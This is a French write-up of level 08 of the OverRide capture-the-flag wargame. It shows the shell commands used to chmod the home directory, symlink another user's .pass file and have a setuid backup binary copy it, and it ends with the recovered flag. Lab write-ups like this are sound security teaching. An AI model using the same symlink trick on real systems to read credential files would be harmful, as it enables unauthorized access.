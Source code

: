 # Level 08

### Protections

![](Ressources/protections.png)

### Exploitation

Le programme recoit en argument un chemin vers un fichier qu'il va ouvrir.

Il ouvre egalement un fichier a la destination `./backups/.log` et **prepare la creation d'une copie de notre fichier dans ce meme repertoire**.

On constate la presence du **FULL RELRO** et de **Canary**, ce qui complique les exploitations directes du programme tel que les Buffer Overflows, ou les Ret2Libc.

On dispose des permissions de lecture sur les copies dans `~/backups/`.

Ayant fait **SnowCrash** et **Rainfall**, on se demande si le programme ne peut pas simplement ouvrir `/home/users/level09/.pass`.

```none
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

Non, le parsing du programme fait qu'une erreur apparait, mais du coup, peut-etre juste faire un lien symbolique ? Dans notre home ?

```
level08@OverRide:~$ ln -s /home/users/level09/.pass mouahahah
ln: failed to create symbolic link `mouahahah': Permission denied
```

Wait..

`level08@OverRide:~$ chmod 777 .`

Voila:

```
level08@OverRide:~$ ln -s /home/users/level09/.pass mouahahah
level08@OverRide:~$ ./level08 mouahahah
level08@OverRide:~$ cat backups/mouahahah 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

**fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S**
